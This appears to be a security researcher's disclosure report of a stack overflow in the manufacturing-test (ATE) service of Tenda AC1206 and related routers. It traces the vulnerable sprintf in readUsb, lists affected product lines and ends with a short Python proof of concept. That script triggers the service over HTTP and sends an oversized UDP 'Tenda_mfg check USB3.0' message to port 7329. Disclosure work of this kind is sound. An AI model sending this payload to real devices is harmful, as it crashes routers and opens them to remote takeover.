



# Description


Tenda AC1206 `ate_Tenda_mfg_check_usb3` and `ate_Tenda_mfg_check_usb` has stack overflow vulnerability. This vulnerability refers the CVE-2024-9793 (https://github.com/ixout/iotVuls/blob/main/Tenda/ate_command_injection/report.md) and I find another one

[firmware download](https://static.tenda.com.cn/tdcweb/download/uploadfile/AC1206/US_AC1206V1.0RTL_V15.03.06.23_multi_TD01.zip)

# Affected version

AC series (AC1206, AC7, AC23 have been submitted separately)

11AC Routers-Tenda US (tendacn.com)

G series

Wired Enterprise Router-Tenda US (tendacn.com)

W series

In-wall AP-Tenda US (tendacn.com)

I series

Ceiling AP-Tenda US (tendacn.com)

O series

Outdoor CPE-Tenda US (tendacn.com)

A series

Range Extenders-Tenda US (tendacn.com)

VD series

xDSL Modem Routers-Tenda US (tendacn.com)


# details


When accessing `url:/goform/ate`, `TendaAte` will be called


The `TendaAte` function creates a thread and calls `ate_main_handle`, but, the recv_buf stack var size is ***4096***,  and recv from socket at most ***0x1000***


In `ate_main_handle`, port number `7329` is opened, `udp` messages are received and processed, and the transmission message format is `command args`

The message is further processed by `ate_cmd_process`


When `command` is `Tenda_mfg`and `arg` is `"check"` or `"check USB3.0"`, the `ate_Tenda_mfg_check_usb ` or `ate_Tenda_mfg_check_usb3` function is called, the both functions are similar, like:


In `readUsb` function,  the variale `mntFileName` size is ***512*** char, but the variale `fileName`'s size is ***0x1000*** at most (`fileName` come from `arg` mentioned above) , there use `sprintf` function to format the two variables (`mountpoint` and `fileName`) into `mntFileName`, there is no check , And will cause stack overflow. 


There is no protection mechanism, causing ***RCE*** is OK, furtherly




Find that, the child thread `300` crash



We can find that the argment `arg`'s value, whose length is out of 512 Byte



poc:

```python
import socket
import time
import os

os.system('curl http://172.30.208.100/goform/ate')

time.sleep(3)

sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)

server_address = ('172.30.208.100', 7329)
command = b'ss'*999
message = b'Tenda_mfg check USB3.0 ;' + command
try:
    print(f'Sending: {message}')
    sock.sendto(message, server_address)

    data, server = sock.recvfrom(4096)
    print(f'Received: {data}')

finally:

    sock.close()
```


